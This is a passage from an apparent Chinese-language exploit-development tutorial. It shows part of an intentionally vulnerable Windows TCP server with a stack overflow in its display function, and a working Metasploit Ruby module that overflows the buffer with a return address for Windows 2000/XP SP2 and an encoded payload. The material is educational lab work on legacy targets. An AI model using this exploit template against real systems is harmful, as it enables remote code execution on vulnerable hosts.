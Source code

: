 ```c++
                    receive_len=0;
                }
                msg_display(buf);//trigged the overflow
            }while(receive_len);
        closesocket(msgsock);
    }while(1);
    WSACleanup(); 
}
```

这是一个非常简易的 TCP socket 程序。编译运行后，程序会在 7777 端口监听 TCP 链接，如果收到数据就在屏幕上打印出来。在 main 函数中，buf 数组的大小被声明为 0x200，在display 函数中将有可能把 0x200 的字符串复制进 200 大小的局部数组，从而触发一个典型的栈溢出。目标主机及 target_server.cpp 的编译环境如表:
- 目标系统：windows2k
- 编译器：vc6
- 编译选项：默认
- build版本：release版本。

用于测试这个漏洞的 Ruby 脚本如下：
```ruby
#!/usr/bin/env ruby 
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
    include Exploit::Remote::Tcp

    def initialize(info = {})
        super(update_info(info,'Name'))
        super(update_info(info,
            'Name' => 'failwest_test',
            'Platform' => 'win',
            'Targets' => [
                ['Windows 2000', {'Ret' => 0x77F8948B } ],
                ['Windows XP SP2',{'Ret' => 0x7C914393 } ]
            ],
            'Payload' => {
                'Space' => 200,
                'BadChars' => "\x00",
            }
        ))
    end #end of initialize
    
    def exploit
        connect
        attack_buf = 'a'*200 + [target['Ret']].pack('V') + payload.
        encoded 
        sock.put(attack_buf)
        handler
        disconnect
    end #end of exploit def
end #end of class def
```
